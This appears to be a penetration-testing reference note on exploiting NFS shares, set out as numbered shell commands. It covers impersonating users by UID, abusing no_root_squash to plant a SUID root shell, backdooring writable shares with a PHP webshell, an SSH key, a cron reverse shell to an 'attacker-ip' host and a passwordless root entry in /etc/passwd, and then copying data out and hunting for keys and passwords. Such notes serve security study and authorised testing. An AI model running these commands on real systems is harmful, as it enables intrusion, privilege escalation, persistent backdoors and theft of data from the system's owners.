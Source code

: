 ```yaml
---
id: Exploitation
aliases:
  - Network File System
tags:
  - Networking/Services/NFS/Exploitation
links: "[[Services]]"
---
```


# Exploitation

<!-- UID Manipulation {{{-->
## UID Manipulation

With
[UID Manipulation](https://hackviser.com/tactics/pentesting/services/nfs#uid-manipulation)
(or [Trusting UID and GID](https://book.hacktricks.wiki/en/network-services-pentesting/nfs-service-pentesting.html#trusting-uid-and-gid))
it is possible to impersonate an arbitrary user
(*or* `root` *(*`UID` *0)* *if* `no_root_squash` *is enabled*)
which the remote file system trusts

1. Check file ownership on the share

> [!example]-
>
> ```sh
> ls -lan /mnt/nfs
> # e.g., file owned by UID 1000
> ```

2. Create user with same UID

> [!example]-
>
> ```sh
> useradd -u 1000 fakeuser
> ```

3. Switch to the new user

> [!example]-
>
> ```sh
> su fakeuser
> ```

4. Mount share

> [!example]-
>
>```sh
>mount -t nfs <target_ip>:/<share> /mnt/nfs
>```

5. It is now possible to read/write files owned by UID 1000

> [!example]-
>
> ```
> cat /mnt/nfs/sensitive_file.txt
> ```

> [!tip]
>
> The tool [fuse_nfs](https://github.com/hvs-consulting/nfs-security-tooling)
> will send the needed `UID` and `GID` to access the file(s)

<!-- }}} -->

<!-- No Root Squashing {{{-->
## No Root Squashing

When root squashing (`no_root_squash`) is disabled, the `root` user
on the client maintains `root` privileges on the NFS share,
allowing privilege escalation

1. Check if `no_root_squash` is set

> [!example]-
>
> ```sh
> showmount -e <target_ip>
> ```
>
> > [!tip]
> >
> > Look for `no_root_squash` in output

2. Mount share

> [!example]-
>
> ```sh
> mount -t nfs <target_ip>:/<share> /mnt/nfs
> ```

3. Create file as `root`

> [!example]-
>
> ```sh
> echo "test" > /mnt/nfs/root_file.txt
> ```

4. Check file permissions

> [!example]-
>
> ```sh
> ls -la /mnt/nfs/root_file.txt
> ```
> ```sh
> -rw-r--r-- 1 root root
> ```

5. Create [[Permissions#SUID & SGID|SUID]] shell

> [!example]-
>
> ```
> cp /bin/bash /mnt/nfs/rootbash
> ```
> ```sh
> chmod +s /mnt/nfs/rootbash
> ```

6. Execute on the target system

> [!example]-
>
> ```sh
> ./rootbash -p
> ```

<!-- }}} -->

<!-- Writable Share Exploitation {{{-->
## Writable Share Exploitation

[Writable Share Exploitation](https://hackviser.com/tactics/pentesting/services/nfs#writable-share-exploitation)
allows to upload backdoors, modify system files, or inject malicious code

<!-- Example {{{-->
> [!example]-
>
> Upload PHP webshell (*if web accessible*)
>
> > [!example]-
> >
> > ```sh
> > cp shell.php /mnt/nfs/var/www/html/shell.php
> > ```
>
> Upload SSH key
>
> > [!example]-
> >
> > ```sh
> > mkdir -p /mnt/nfs/root/.ssh
> > ```
> > ```sh
> > cp id_rsa.pub /mnt/nfs/root/.ssh/authorized_keys
> > ```
> > ```sh
> > chmod 600 /mnt/nfs/root/.ssh/authorized_keys
> > ```
>
> Upload [[Privesc/Scheduled Tasks|cron job]]
>
> > [!example]-
> >
> >```sh
> >echo "* * * * * root bash -i >& /dev/tcp/attacker-ip/4444 0>&1" > /mnt/nfs/etc/cron.d/backdoor
> >```
>
> Upload `/etc/passwd` backdoor
>
> > [!example]-
> >
> >```sh
> >echo "backdoor::0:0:root:/root:/bin/bash" >> /mnt/nfs/etc/passwd
> >```
<!-- }}} -->

<!-- }}} -->

<!-- NSFShell {{{-->
## NSFShell

List, mount and change `UID` and `GID` to have access to files with
[nfsshell](https://github.com/Supermathie/nfsshell)

<!-- }}} -->

<!-- Post-Exploitation {{{-->
## Post-Exploitation

Copy entire share

> [!example]-
>
>```sh
>rsync -av /mnt/nfs/ /tmp/exfiltrated_data/
>```

Compress and download (*from target to attacker machine*)

> [!example]-
>
> ```sh
> tar czf nfs_data.tar.gz /mnt/nfs
> ```

Find sensitive files

> [!example]-
>
> ```sh
> find /mnt/nfs -name "*.key" -o -name "*.pem" -o -name "*password*"
> ```

<!-- }}} -->

<!-- }}} -->
